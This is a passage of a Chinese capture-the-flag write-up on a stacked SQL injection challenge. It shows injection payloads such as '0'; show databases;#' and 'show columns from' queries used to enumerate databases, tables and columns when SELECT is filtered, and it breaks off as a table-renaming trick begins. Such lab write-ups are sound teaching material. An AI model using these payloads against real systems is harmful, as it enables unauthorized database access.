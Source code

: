 
发现过滤

这就是今天学习到的 如果 select 过滤了 可以使用 堆叠注入

数据库

```csharp
0'; show databases;#
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/4a0c236a4f2a88857ef83fec52271efc.png" alt="" style="max-height:708px; box-sizing:content-box;" />


查看表

```csharp
0'; show tables;#
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/e9eadb8c3d0b6a21336e342f3f2e56dc.png" alt="" style="max-height:385px; box-sizing:content-box;" />


一个一个访问 这里又有一个注意的地方

 ***表名为数字时，要用反引号包起来查询。*** 

```csharp
0';show columns from `1919810931114514`#
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/abdb54f1277ee337fea00eac13fe1658.png" alt="" style="max-height:361px; box-sizing:content-box;" />


找到flag 但是无法查看

我们接着查看另一个表

```csharp
0';show columns from words#
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/bdc1b94a03a79516e934597e1fd37052.png" alt="" style="max-height:718px; box-sizing:content-box;" />


发现里面有id 和data 两个字段

#### 1.改名

words里面有id和data两个字段



<img src="https://i-blog.csdnimg.cn/blog_migrate/da0b3cd30191b53a4afa48a9618e7f20.png" alt="" style="max-height:327px; box-sizing:content-box;" />


而在最开始的时候 输入1 返回的就是id 和data
